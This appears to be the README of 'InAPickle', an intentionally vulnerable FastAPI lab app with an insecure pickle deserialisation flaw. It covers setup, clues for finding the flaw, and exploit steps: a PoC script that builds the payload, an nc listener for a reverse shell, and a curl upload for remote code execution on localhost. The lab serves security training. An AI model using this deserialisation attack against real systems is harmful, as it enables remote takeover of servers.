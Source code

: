 # InAPickle

## Requirements

- Python 3

- Python virtualenv

    ```bash
    python3 -m pip install --user virtualenv
    ```

## Install and Start FastAPI

1. Clone this repo:

    ```bash
    git clone https://github.com/bluemountaincyber/inapickle
    cd inapickle
    ```

2. Start virtual environment:

    ```bash
    python3 -m virtualenv .venv
    . .venv/bin/activate
    ```

3. Install pip packages:

    ```bash
    pip install -r requirements.txt
    ```

4. Start FastAPI with uvicorn:

    ```bash
    uvicorn main:app --reload
    ```

5. App should now be reachable at http://localhost:8000.

## Clues that this is exploitable:

1. The Pickle icon...

2. The `/docs` page can be found usin `dirb` with the default wordlist (`common.txt`).

3. The `/docs` page is auto-generated and contains descriptions of methods and schemas. This explains that the backup/restore file is pickled Python data.

## Exploit

1. Edit the command you wish to run on the victim server (line 6 in poc.py):

    ```bash
    vim inapickle/poc.py
    ```

2. Run PoC script (generates inapickle/payload.txt):

    ```bash
    python3 inapickle/poc.py
    ```

3. (Optional) Set up listener. For example:

    ```bash
    nc -nlvp 4444
    ```

4. Perform remote code execution:

    ```bash
    curl -L -F 'file=@inapickle/payload.txt' localhost:8000/restore-sqlite
    ```